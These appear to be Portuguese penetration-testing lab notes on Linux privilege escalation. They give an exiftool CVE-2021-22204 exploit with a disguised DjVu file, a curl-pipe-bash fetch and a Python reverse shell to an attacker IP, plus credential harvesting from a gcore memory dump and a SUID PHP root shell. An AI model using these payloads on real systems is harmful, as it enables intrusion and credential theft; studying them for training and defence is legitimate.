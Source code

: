 ## Privilege Escalation

### Cronjob Enumeration

Identificamos uma entrada no arquivo `/etc/crontab` que executa o script `/opt/image-exif.sh` como root a cada minuto.

```
# Exibindo o conteúdo de /etc/crontab
cat /etc/crontab
```

**Cronjob Identificado**:
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
...
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```

### Script Analysis (`/opt/image-exif.sh`)

O script realiza processamento de metadados em imagens JPG usando `exiftool` e salva os dados processados em `/opt/metadata`.

```
# Exibindo o conteúdo de /opt/image-exif.sh
cat /opt/image-exif.sh
```

**Conteúdo do Script**:
```
#!/bin/bash
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=$(openssl rand -hex 5)
LOGFILE="$META/$FILE"
ls $IMAGES | grep "jpg" | while read filename; do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done
```

**Análise**: O script executa `exiftool` em cada arquivo JPG no diretório de uploads, com potencial de exploração caso o `exiftool` seja vulnerável.

### Exploração de Arbitrary Code Execution com ExifTool (CVE-2021-22204)

Descoberta de vulnerabilidade de execução de código remoto (RCE) no ExifTool, documentada em CVE-2021-22204. Utilizamos o `djvumake` para criar um arquivo malicioso no formato DjVu.

1. **Instalar Dependência**: `djvulibre-bin` para gerar o arquivo DjVu.
   ```
   sudo apt-get update && sudo apt-get install -y djvulibre-bin
   ```

2. **Criar Arquivo de Payload**:
   - `shell.sh`: Script de reverse shell em Python.
   - `exploit`: Exploit para chamar `shell.sh` remotamente.
   
   ```
   # shell.sh (conteúdo do reverse shell)
   cat << 'EOF' > shell.sh
   #!/bin/bash
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   EOF
   ```

   ```
   # exploit (comando para executar o reverse shell via curl)
   cat << 'EOF' > exploit
   (metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
   EOF
   ```

3. **Gerar Arquivo DjVu Malicioso**:
   ```
   djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit
   mv exploit.djvu exploit.jpg
   ```

4. **Transferir o Arquivo para o Servidor**:
   ```
   wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg
   ```

5. **Ouvir Conexão Reversa**:
   Após um minuto, o cronjob executará o payload, e a shell reversa será conectada à porta 4444.

   ```
   nc -lvnp 4444
   ```

**Resultado**:
```
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## Sudo gcore

### Passo 1: Verificar Permissões sudo
Comece verificando se o usuário atual possui permissões para executar comandos com `sudo`.

```
sudo -l
```

> Procure por comandos que podem ser executados com privilégios elevados, especialmente aqueles que permitem gerar dumps de memória, como `/usr/bin/gcore`.

### Passo 2: Identificar Processos de Interesse
Liste todos os processos em execução para localizar algum que contenha informações sensíveis, como credenciais ou configurações confidenciais.

```
ps auxwww
```

> Identifique o PID de um processo interessante, como `/usr/bin/password-store`, que está sendo executado como root.


### Passo 3: Gerar Dump de Memória com gcore
Use `gcore` para criar um core dump do processo alvo. Substitua `<PID>` pelo PID do processo de interesse.

```
sudo /usr/bin/gcore <PID>
```

> Exemplo: `sudo /usr/bin/gcore 492`

> Isso criará um arquivo `core.<PID>` no diretório atual, contendo uma cópia da memória do processo.

### Passo 4: Analisar o Dump de Memória com strings
Use o comando `strings` para analisar o core dump em busca de informações em texto claro (cleartext), como credenciais.

```
strings core.<PID>
```

> Exemplo: `strings core.492`

> Procure por palavras como "password", "user", ou nomes de aplicativos que possam conter credenciais.

### Passo 5: Usar Credenciais para Escalonar Privilégios
Se encontrar credenciais para o usuário root, utilize-as para escalonar privilégios.

```
su root
```

> Insira a senha encontrada no core dump para obter acesso root.



### Resumo do Processo

1. **Verificar permissões sudo**: `sudo -l`
2. **Identificar processos de interesse**: `ps auxwww`
3. **Gerar dump com gcore**: `sudo /usr/bin/gcore <PID>`
4. **Analisar o dump com strings**: `strings core.<PID>`
5. **Escalonar privilégios**: `su root`

---

### SUID Binaries 

Identificar Binaries SUID Interessantes

Para buscar binaries SUID, use o comando abaixo e filtre resultados desnecessários:

```
find / -perm -u=s -type f 2>/dev/null | grep -v 'snap'
```

Exemplo de saída relevante:
```
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chfn
/usr/bin/at
/usr/bin/php7.4
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
```

### Exploração de SUID com PHP

Se `/usr/bin/php7.4` estiver listado como um binary SUID, podemos usar isso para escalonar privilégios. Utilize o site [GTFOBins](https://gtfobins.github.io/) para verificar se há um método conhecido para explorar o SUID de PHP.

Comando de Exploração com PHP (GTFOBins)

Para ganhar acesso root usando o SUID de PHP, execute o seguinte comando:

```
/usr/bin/php7.4 -r 'system("/bin/sh");'
```

Resumo do Procedimento

1. **Identificar binaries SUID**: `find / -perm -u=s -type f 2>/dev/null | grep -v 'snap'`
2. **Confirmar o uso de GTFOBins**: Verifique [GTFOBins - PHP](https://gtfobins.github.io/gtfobins/php/#suid) para explorar o binary SUID.
3. **Executar Exploit**: `sudo /usr/bin/php7.4 -r 'system("/bin/sh");'` para obter um shell como root.
